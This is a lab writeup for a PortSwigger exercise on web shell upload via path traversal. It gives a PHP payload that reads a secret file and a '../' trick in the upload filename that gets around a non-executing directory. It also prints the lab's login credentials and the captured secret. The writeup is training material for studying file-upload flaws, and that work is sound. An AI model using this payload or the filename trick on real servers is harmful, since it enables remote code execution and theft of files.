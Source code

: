 # Lab Writeup: Web shell upload via path traversal

URL: https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/preventing-file-execution-in-user-accessible-directories/file-upload/lab-file-upload-web-shell-upload-via-path-traversal#

## Description

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

1. Login using `wiener:peter`
2. Create the following php payload:

   ```php
   <?php echo file_get_contents('/home/carlos/secret') ?>
   ```

3. Try uploading the payload as avatar, open the uploaded file in new tab and you'll get the following output:

   ```txt
    <?php echo file_get_contents('../../../home/carlos/secret'); ?>
   ```

   basically the payload will not be executed but displayed

4. Try uploading the payload again but intercept it this time:

   ![traversal-shell](/assets/traversal-shell.png)

   From the above image, we can see that `Content-Disposition` value is `filename="rce-webshell-upload.php"`, change it to `filename="../rce-webshell-upload.php"`

5. forward the intercepted and modified request and try opening the payload image again in new tab then you'll get the secret value `kBJNF5rdH4GMlLgIwloueuSZV2d9RxGE`
6. Submit the value and the lab should be changed:

   ![traversal-shell-1](/assets/traversal-shell-1.png)
